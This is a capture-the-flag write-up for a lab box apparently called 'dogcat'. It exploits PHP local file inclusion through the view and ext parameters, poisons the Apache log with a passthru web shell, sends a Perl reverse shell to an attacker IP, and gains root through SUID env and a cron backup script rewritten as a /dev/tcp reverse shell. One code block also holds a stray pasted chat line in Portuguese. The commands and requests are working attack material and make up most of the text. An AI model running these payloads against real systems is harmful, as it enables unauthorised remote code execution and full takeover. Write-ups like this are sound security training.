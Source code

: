 # Info

## IP = $IP
# Ports

## Port Scanning
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## 22
### `nmap`
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2431192ab1971a044e2c36ac840a7587 (RSA)
|   256 213d461893aaf9e7c9b54c0f160b71e1 (ECDSA)
|_  256 c1fb7d732b574a8bdcd76f49bb3bd020 (ED25519)
```

## 80

### `nmap`
```
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```
### Exploring
- query-param is strange...

### Exploiting query-param
- must have 'cat' or 'dog' string
- Error
```
GET /?view=cat'admin 

<b>Warning</b>:  include(): Failed opening 'cat'admin.php' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/index.php
```
- PHP Wrappers?
    - https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
- cat%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd with dot truncation?
    - https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers
- Got the base64 for any php file!
    - `php://filter/convert.base64-encode/resource==cat/../index`
- Reading `index.php`, I got a interesting part:
```
User
Cite apenas o que esta parte faz:

 <?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
```
- Creating a `ext` parameter in URL
    - I CAN READ ANY FILE =D
- Reading `/etc/passwd`
- Log poisoning
    - https://chryzsh.gitbooks.io/pentestbook/content/local_file_inclusion.html
```bash
┌──(kali㉿kali)-[~]
└─$ nc $IP 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
HTTP/1.1 400 Bad Request
Date: Sun, 25 Feb 2024 20:59:43 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 302
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 172.17.0.2 Port 80</address>
</body></html>
```
```
GET /?view=cat%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar%2flog%2fapache2%2faccess.log&ext=&cmd=ls HTTP/1.1
Host: $IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://$IP/
Upgrade-Insecure-Requests: 1
```
- Verifying the binaries, I found `perl`. Trying rev-shell with it
- view: `../../../../cat/../var/log/apache2/access.log`
- cmd: `perl -e 'use Socket;$i="$ATK_IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'`
```
GET /?view=..%2f..%2f..%2f..%2fcat%2f..%2fvar%2flog%2fapache2%2faccess.log&ext=&cmd=perl%20-e%20'use%20Socket%3b%24i%3d%22$ATK_IP%22%3b%24p%3d1234%3bsocket(S%2cPF_INET%2cSOCK_STREAM%2cgetprotobyname(%22tcp%22))%3bif(connect(S%2csockaddr_in(%24p%2cinet_aton(%24i))))%7bopen(STDIN%2c%22%3e%26S%22)%3bopen(STDOUT%2c%22%3e%26S%22)%3bopen(STDERR%2c%22%3e%26S%22)%3bexec(%22%2fbin%2fsh%20-i%22)%3b%7d%3b' HTTP/1.1
Host: $IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://$IP/
Upgrade-Insecure-Requests: 1
```

# PrivEsc

## LinPeas
```bash
curl -O http://$ATK_IP:8000/linpeas.sh
```

## First flag
- _/var/www/html/flag.php_

## Second flag
- _/var/www/flag2\_QMW7JvaY2LvK.txt_

## SUID permissions on `env`
- https://gtfobins.github.io/gtfobins/env/#suid
```bash
$ env /bin/bash -p
whoami
root
```

## Interesting file
```bash
cat /opt/backups/backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

## Trasnforming this file into a rev shell
```bash
cd backups
echo "#!/bin/bash" > backup.sh
echo "bash -i >& /dev/tcp/$ATK_IP/1337 0>&1" >> backup.sh
cat backup.sh
#!/bin/bash
bash -i >& /dev/tcp/$ATK_IP/1337 0>&1
```

## Waiting for execution of _backup.sh_
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [$ATK_IP] from (UNKNOWN) [$IP] 51154
bash: cannot set terminal process group (2545): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4.txt
cat flag4.txt
```